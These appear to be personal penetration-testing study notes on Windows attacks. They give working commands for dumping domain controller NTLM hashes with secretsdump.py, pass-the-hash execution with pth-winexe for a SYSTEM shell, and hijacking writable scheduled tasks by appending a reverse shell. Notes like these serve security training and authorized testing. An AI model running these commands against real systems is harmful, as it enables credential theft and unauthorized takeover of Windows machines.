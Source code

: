 If we have valid credentials for a domain controller then we can dump all the hashes directly from our machine

> secretsdump.py -just-dc-ntlm domain.name/username@IPADDRESS

> secretsdump.py domain/username:password@IPADDRESS or secretsdump.py domain/username@IPADDRESS -H hash






### Passing the hash


ntlm hash format is

> **username:salt:LM:NTLM:::**

when cracking hashes we only use the ntlm part

 Whenever we find hashes, we can use them directly sometiems instead of decrypting them
 
we can use the hash in winexe command replacing the passowrd position.

we specify the LM and NTLM part of the hash

we use  a modified version of winexe called pth-winexe

> pth-winexe -U'admin%LM:NTLM' //10.4.30.255 cmd.exe

If we want a  system shell we simply provide a --system flag


## Autorun and scheduled tasks

In windows we can only see scheduled tasks of users with smae or lower priveleges

we can see the autorun scheduled tasks by the command

> schtasks /query /fo LIST /v

or  in Powershell

> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft Taskname,TaskPath,State 


- **Most of the time we find scheduled tasks and programs through manual enumuration because they are custom programs**

Once we find a scheduled tasks we can see its permission by accesschk

> .\accesschk.exe /accepteula -quvw username schedulefilepath

If we can write or append data to the file then we can add our own code

First make a backup of sheduled file in temp directroy

> copy shceduledfilepath c:\windows\temp

below we append contents of our reverse shell inside the file (We have to specify absolute path)

> echo reverseshellfilepath >> scheduledfilepath 
